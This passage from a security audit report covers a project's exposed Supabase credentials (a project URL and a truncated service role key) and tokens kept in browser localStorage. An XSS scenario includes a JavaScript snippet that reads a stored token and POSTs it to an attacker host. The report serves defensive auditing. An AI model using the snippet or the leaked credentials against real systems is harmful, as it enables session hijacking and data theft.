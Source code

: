 #### Exposed Credentials
```
SUPABASE_URL=https://ukorcrxjrtxrqoalffki.supabase.co
SUPABASE_SERVICE_ROLE_KEY=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

#### Attack Scenarios
1. **Direct Database Access:** Attackers can use service role key for full database control
2. **Data Exfiltration:** Complete user data theft including tokens and personal information
3. **Service Impersonation:** Create fake users, manipulate token balances
4. **Financial Impact:** Unauthorized API usage, resource consumption

#### Immediate Actions Required
- [ ] Rotate all Supabase credentials immediately
- [ ] Generate new JWT secrets
- [ ] Update all API keys
- [ ] Remove real credentials from all documentation
- [ ] Audit database for unauthorized access

### 2. INSECURE TOKEN STORAGE IN BROWSER
**Risk Level:** 🔴 CRITICAL  
**CVSS Score:** 8.5 (High)  
**Impact:** Session hijacking, account takeover

#### Description
MCP tokens are stored in browser localStorage without encryption, making them vulnerable to XSS attacks and client-side script access.

#### Evidence
```typescript
// frontend-vite/src/contexts/AuthContext.tsx:54-57
const [mcpToken, setMcpToken] = useState<string | null>(() => {
    // SECURITY: Get token from localStorage but will validate ownership later
    return localStorage.getItem('mcp_token');
});
```

#### Attack Scenarios
1. **XSS Token Theft:**
```javascript
// Malicious script can steal tokens
const stolenToken = localStorage.getItem('mcp_token');
fetch('https://attacker.com/steal', { 
    method: 'POST', 
    body: JSON.stringify({ token: stolenToken }) 
});
```

2. **Browser Extension Attacks:** Malicious extensions can access localStorage
3. **Physical Device Access:** Tokens persist even after browser closure

---
